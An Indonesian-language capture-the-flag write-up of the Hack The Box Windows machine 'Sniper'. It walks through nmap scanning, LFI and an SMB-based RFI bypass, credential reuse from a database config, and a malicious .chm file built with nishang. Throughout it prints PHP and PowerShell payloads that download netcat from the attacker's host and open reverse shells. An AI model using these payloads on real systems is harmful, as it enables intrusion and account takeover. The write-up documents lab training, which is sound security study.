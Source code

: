 # Sniper (Windows)

![Image](img/1.jpg)

Box Sniper dengan IP 10.10.10.151 dengan OS Windows *sigh* Windows... Tetapi dari box ini saya belajar sangat banyak tentang client side attack yang menurut saya sangat menarik.

### Enumeration 

Mari lakukan basic enumeration dengan nmap, hasil nmap menunjukkan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 02:40 EST
Nmap scan report for 10.10.10.151
Host is up (0.26s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
|_clock-skew: 7h01m53s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-07T14:43:14
|_  start_date: N/A
 
TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   252.60 ms 10.10.14.1
2   254.10 ms 10.10.10.151
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.37 seconds
```

Ada banyak port yang terbuka seperti http, rpc, SMB mari kita melihat web service yang disajikan terlebih dahulu.

![Image](img/2.jpg)

Pada awalnya tidak terlihat ada banyak yang bisa dilakukan, namun setelah enumeration beberapa waktu ditemukanlah login portal !

![Image](img/3.jpg)

Penulis sudah mencoba melakukan login dengan basic credentials seperti admin:admin admin:password dll, namun tidak ada yang berhasil. Membuat custom wordlist juga sepertinya tidak berguna. Penulis masuk ke rabbit hole !

![Image](img/4.jpg)

Pada page services, dan setelah berpindah ke page blog dalam bahasa inggris, nampaknya parameter ini vulnerable terhadap LFI. Mari kita coba !

![Image](img/5.jpg)

Penulis menggunakan Burpsuite untuk melakukan intercept terhadap request dan memasukkannya kedalam repeater untuk memperhatikan behaviornya lebih mudah. Benar bisa dilakukan LFI, tapi saya tidak menemukan file yang menarik, dan tidak ada tempat untuk melakukan file upload di website ini. Mari kita coba untuk melakukan RFI.

![Image](img/6.jpg)

RFI tidak me return apapun, berarti allow url include dimatikan. Namun ada cara untuk melakukan bypass url include yang dimatikan tersebut, saya mengambil referensi dari website

[http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

Blog diatas menunjukkan cara melakukan bypass terhadap larangan remote url inclusion dengan menggunakan smb serivce. Saya mengikuti setiap step di dalam blog tersebut dengan payload yang berbeda.

```
<?=
system("powershell IWR http://10.10.14.217:8000/nc64.exe -outfile \\Microsoft\\nc64.exe;\\Microsoft\\nc64.exe 10.10.14.217 1234 -e powershell.exe 2>&1")
?>
```

Payload ini akan mendownload netcat dari python server saya, dan menggunakan netcat tersebut untuk memberikan koneksi reverse shell.

```
PS C:\inetpub\wwwroot\blog> whoami
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\blog> dir
```

### User

Kita masuk sebagai iusr, dan menemukan config database yang menganduk credentials

```
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Kita juga mengetahui dari directory users terdapat user bernama Chris, mari kita coba dapatkan shell sebagai Chris. Cara untuk mengetahui ada user apa saja pada sebuah mesin salah satunya adalah dengan melakukan directory listing pada home directory. 

```
Import-Module 'Microsoft.Powershell.Security'
 
$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
 
$cred = New-Object System.Management.Automation.PSCredential("SNIPER\Chris",$pass)
 
Invoke-Command -Computer Sniper -ScriptBlock { IWR -uri 10.10.14.217:8000/nc64.exe -outfile nc.exe } -Credential $cred
 
Invoke-Command -Computer Sniper -ScriptBlock { cmd /c nc.exe 10.10.14.217 1235 -e powershell.exe } -Credential $cred
```

Berhasil menjadi Chris

```
PS C:\Users\Chris\Documents> whoami
whoami
sniper\chris
PS C:\Users\Chris\Documents>
```

### Root

Mari kita lakukan privesc ke administrator

![Image](img/7.jpg)

Ditemukan instructions.chm , chm adalah file help untuk OS windows. Namun ada vulnerability untuk menyembunyikan payload dan menjalankannya saat file .chm ini dibuka.

```
PS C:\Docs> cat note.txt
cat note.txt
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
 
Regards,
Sniper CEO.
```

Pada folder Docs terdapat note.txt yang menyuruh kita menyelesaikan pekerjaan kita dan meletakkan file .chm disini . Mari kita rakit payload .chm dan masukkan ke folder ini dengan harapan mendapatkan reverse shell sebagai administrator.

Kita akan menggunakan Out-CHM.ps1 oleh nishang

[https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)

Dengan panduan dari

[http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html](http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html)

![Image](img/8.jpg)

```

Out-CHM -Payload 'C:\Users\Chris\Documents\nc.exe 10.10.14.217 8888 -e cmd' -HHCPath 'D:\Desktop\Petir Stuff\Tools\HTML Help Workshop\'
1
Out-CHM -Payload 'C:\Users\Chris\Documents\nc.exe 10.10.14.217 8888 -e cmd' -HHCPath 'D:\Desktop\Petir Stuff\Tools\HTML Help Workshop\'
```

Mari kita drop payload kita di Docs

```

2
3
C:\Windows\system32>whoami
whoami
sniper\administrator
```

Kita berhasil mendapatkan reverse shell sebagai administrator dengan menggunakan netcat !

# Rooted !